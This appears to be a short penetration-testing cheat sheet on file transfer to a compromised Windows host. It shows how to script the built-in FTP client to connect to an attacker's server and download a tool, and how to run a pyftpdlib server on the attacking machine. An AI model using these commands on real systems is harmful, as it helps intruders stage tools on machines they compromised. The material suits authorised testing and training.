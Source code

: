 # FTP \(Built into Windows\)

## First Method

* on the compromised machine we echo out the following commands into a file

```bash
echo open 192.168.1.101 21 > ftp.txt
echo user asshat >> ftp.txt
echo secretPass >> ftp.txt
echo bin >> ftp.txt
echo get wget.ext >> ftp.txt
echo bye >> ftp.txt
```

* then run this command

```bash
# -s:filename : Specifies a text file containing FTP commands; the
                # commands will automatically run after FTP starts
# -v : Suppresses display of remote server responses, aka returned input
# -n : Suppresses auto-login upon initial connection
ftp -v -n -s:ftp.txt
```

* a ftp-server configured with the user asshat and the password secretPass is needed

## Second Method

* on the attacking Linux machine run

```bash
pip install pyftpdlib
```

* then run this command on Attacking Machine

```bash
python -m pyftpdlib -p 21 w
```

* run on Victim Machine

```bash
ftp 10.10.10.10
```

